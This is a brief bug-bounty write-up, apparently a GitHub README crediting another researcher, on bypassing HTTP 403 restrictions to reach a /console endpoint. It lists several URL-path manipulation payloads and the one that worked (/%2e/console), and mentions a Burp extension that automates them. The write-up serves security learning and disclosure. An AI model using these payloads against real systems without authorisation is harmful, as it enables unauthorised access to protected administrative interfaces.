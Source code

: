# Bypassing 403s like a PRO! ($2,100)

1. As usual, I begin my directory enumeration with the dirbuster wordlists and find a /console endpoint which returns a 403 response.
2. Ways to bypass 403 endpoints (If /path is blocked)
```
/path –> HTTP 403 Forbidden
/path –> HTTP 200 OK
/path/ –> HTTP 200 OK
/path/. –> HTTP 200 OK
//path// –> HTTP 200 OK
/./path/.. –> HTTP 200 OK
/;/path –> HTTP 200 OK
/.;/path –> HTTP 200 OK
//;//path –> HTTP 200 OK
/path.json –> HTTP 200 OK
```
3. I prefer using the 403 Bypasser Burp extension by Gil Nothmann to automate the bypass techniques.
4. What worked for me? Usage of a dot or %2e in the URL path:  `/%2e/console`
<h3>The submission was triaged quickly and categorized as a P1. I was later rewarded with a $2,100 bounty.</h3><br>

## Credit
Based on [Shrirang Diwakar](https://shrirangdiwakar.medium.com/bypassing-403s-like-a-pro-2-100-broken-access-control-66beef4afa8c)'s writeup.
<br>&nbsp;

## Support
You can Follow [me](https://twitter.com/MeAsHacker_HNA) on twitter or
<br><br><a href="https://www.buymeacoffee.com/NafisiAslH" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/v2/default-yellow.png" alt="Buy Me A Coffee" style="height: 60px !important;width: 217px !important;" ></a>
